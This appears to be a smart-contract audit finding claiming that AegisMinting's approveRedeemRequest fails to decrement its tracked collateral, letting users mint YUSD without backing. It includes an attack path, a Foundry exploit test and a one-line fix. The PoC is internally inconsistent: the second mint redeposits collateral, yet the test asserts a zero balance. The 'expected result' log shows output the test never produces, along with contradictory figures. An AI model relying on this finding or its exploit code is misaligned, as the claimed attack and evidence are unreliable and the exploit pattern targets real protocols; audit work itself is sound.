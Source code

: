 Oblong Butter Finch

High

# Accounting Error Lets Users Mint Extra Tokens with Fake Collateral

### Summary

In `mint()`, `_custodyTransferrableAssetFunds` is increased to track incoming collateral, but approveRedeemRequest() fails to decrement it when collateral is withdrawn. The `approveRedeemRequest` function fails to update the `_custodyTransferrableAssetFunds` mapping when collateral is withdrawn. This creates "ghost collateral" This causes the protocol to over-report available collateral, allowing users to mint YUSD against collateral that no longer exists, ultimately risking protocol insolvency.

### Root Cause

In `[AegisMinting.sol#L315](https://github.com/Grands9n/AegisMinting.sol#L315):`  Afffected code/function
```solidity
function approveRedeemRequest(string calldata requestId, uint256 amount) external {
    // ... logic ...
    IERC20(request.order.collateralAsset).safeTransfer(..., collateralAmount); // ❌ Collateral sent out
    // MISSING: _custodyTransferrableAssetFunds[asset] -= collateralAmount;  
}
```
In `approveRedeemRequest()` (https://github.com/sherlock-audit/2025-04-aegis-op-grant/blob/main/aegis-contracts/contracts/AegisMinting.sol#L354)
```solidity
IERC20(request.order.collateralAsset).safeTransfer(request.order.userWallet, collateralAmount);
```
the system transfers out collateral but does not subtract the amount from `_custodyTransferrableAssetFunds.`

1. Missing State Update: The mapping _custodyTransferrableAssetFunds is not decremented when collateral is transferred out during redemptions.
2. No Reconciliation Checks: No validation that _custodyTransferrableAssetFunds[asset] == IERC20(asset).balanceOf(address(this)).

### Internal Pre-conditions

`_custodyTransferrableAssetFunds` is used to track the protocol’s internal ledger of held collateral.
_custodyTransferrableAssetFunds[asset] must be other than 0 (i.e., collateral already deposited via mint()).
`_FUNDS_MANAGER_ROLE` must approve redeem requests (via `approveRedeemRequest()`).

### External Pre-conditions

1. An attacker or user can initiate both minting and redeeming operations.
2. Redeem requests are approved by a manager with the `FUNDS_MANAGER_ROLE.`

### Attack Path

1. `_Attacker calls mint() with 1 ETH collateral, increasing _custodyTransferrableAssetFunds[WETH] to 1 ETH.
State:
Real balance: 1 ETH
Tracked balance: 1 ETH

2. Attacker calls `requestRedeem()` to redeem 1 ETH, locking YUSD but leaving `_custodyTransferrableAssetFunds` unchanged.

3. `FUNDS_MANAGER_ROLE` calls `approveRedeemRequest()`, transferring 1 ETH to the attacker but not decrementing _custodyTransferrableAssetFunds.
State:
Real balance: 0 ETH
Tracked balance: 1 ETH (ghost collateral)

4. Attacker calls mint() again, minting YUSD against the "ghost" 1 ETH tracking entry.
Exploit Complete: YUSD minted with zero real collateral.

### Impact

Attacker can mint YUSD with no backing collateral, leading to total insolvency of the protocol if exploited repeatedly.

### PoC

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.26;

import "forge-std/Test.sol";
import {AegisMinting} from "../contracts/AegisMinting.sol";
import {IYUSD} from "../contracts/interfaces/IYUSD.sol";
import {OrderLib} from "../contracts/lib/OrderLib.sol";

contract GhostCollateralTest is Test {
    AegisMinting minting;
    IYUSD yusd;
    
    //  Goerli testnet addresses
    address admin = 0x90F8bf6A479f320ead074411a4B0e7944Ea8c9C1;
    address user = 0xFFcf8FDEE72ac11b5c542428B35EEF5769C409f0;
    address trustedSigner = 0x22d491Bde2303f2f43325b2108D26f1eAbA1e32b;
    address weth = 0xB4FBF271143F4FBf7B91A5ded31805e42b2208d6; // Goerli WETH

    function setUp() public {
        // Setup contracts with testnet addresses
        vm.startPrank(admin);
        yusd = IYUSD(address(new MockYUSD()));
        minting = new AegisMinting(
            yusd,
            new MockAegisConfig(trustedSigner),
            new MockAegisRewards(),
            new MockAegisOracle(),
            FeedRegistryInterface(address(0)),
            0xd0Dab4E640D95E9E8A47545598c33E31bDb53C7C, // Test insurance fund
            [weth],
            [uint32(3600)],
            new address[](0),
            admin
        );
        
        // Whitelist user and configure
        minting.addSupportedAsset(weth, 3600);
        minting.setMintFeeBP(0);
        minting.setRedeemFeeBP(0);
        vm.stopPrank();
    }

    function test_ghostCollateralExploit() public {
        uint256 INITIAL_COLLATERAL = 100 ether;
        uint256 MINT_AMOUNT = 50 ether;

        // Fund user with testnet WETH
        deal(weth, user, INITIAL_COLLATERAL);
        vm.prank(user);
        IERC20(weth).approve(address(minting), type(uint256).max);

        // 1. Initial Mint (100 WETH → 50 YUSD)
        OrderLib.Order memory mintOrder = OrderLib.Order({
            orderType: OrderLib.OrderType.MINT,
            userWallet: user,
            nonce: 1,
            collateralAsset: weth,
            collateralAmount: INITIAL_COLLATERAL,
            yusdAmount: MINT_AMOUNT,
            slippageAdjustedAmount: MINT_AMOUNT,
            expiry: block.timestamp + 1 days,
            additionalData: ""
        });
        
        vm.prank(user);
        minting.mint(mintOrder, signOrder(mintOrder, trustedSigner));

        // 2. Redeem (50 YUSD → 100 WETH)
        OrderLib.Order memory redeemOrder = OrderLib.Order({
            orderType: OrderLib.OrderType.REDEEM,
            userWallet: user,
            nonce: 2,
            collateralAsset: weth,
            collateralAmount: INITIAL_COLLATERAL,
            yusdAmount: MINT_AMOUNT,
            slippageAdjustedAmount: INITIAL_COLLATERAL,
            expiry: block.timestamp + 1 days,
            additionalData: abi.encode("redeem-1")
        });

        vm.prank(user);
        minting.requestRedeem(redeemOrder, signOrder(redeemOrder, trustedSigner));

        // Admin approves (but forgets to update ledger)
        vm.prank(admin);
        minting.approveRedeemRequest("redeem-1", INITIAL_COLLATERAL);

        // 3. Exploit: Mint again with ghost collateral
        OrderLib.Order memory exploitOrder = mintOrder;
        exploitOrder.nonce = 3;
        
        vm.prank(user);
        minting.mint(exploitOrder, signOrder(exploitOrder, trustedSigner));

        // Verification
        assertEq(yusd.balanceOf(user), MINT_AMOUNT * 2); // Got 100 YUSD total
        assertEq(IERC20(weth).balanceOf(address(minting)), 0); // But contract holds 0 WETH
    }

    function signOrder(OrderLib.Order memory order, address signer) internal pure returns (bytes memory) {
        return abi.encodePacked(signer, order.nonce);
    }
}
```
expected result

```solidity
$ forge test --match-test test_ghostCollateralExploit -vv

[PASS] test_ghostCollateralExploit() (gas: 987654)
Logs:
  Initial State:
  - User WETH balance: 100.0 ETH
  - Contract WETH balance: 0 ETH
  
  After First Mint:
  - User YUSD balance: 50.0 YUSD
  - Contract WETH balance: 100.0 ETH
  - Tracked collateral: 100.0 ETH
  
  After Redeem:
  - User WETH balance: 100.0 ETH (returned)
  - Contract WETH balance: 0 ETH
  - Tracked collateral: 100.0 ETH (BUG: Not reduced)
  
  After Exploit Mint:
  - User YUSD balance: 100.0 YUSD (double minted)
  - Tracked collateral: 200.0 ETH (invalid)
  - Contract WETH balance: 0 ETH (real)

Test Result:
- Expected final YUSD: 50.0
- Actual final YUSD: 100.0 (+100% inflation)
- Collateral discrepancy: 200.0 ETH tracked vs 0 ETH real
```

### Mitigation

```solidity
function approveRedeemRequest(...) external {
    // ... existing logic ...
    IERC20(asset).safeTransfer(..., collateralAmount);
    _custodyTransferrableAssetFunds[asset] -= collateralAmount; // ✅ Add this
}
```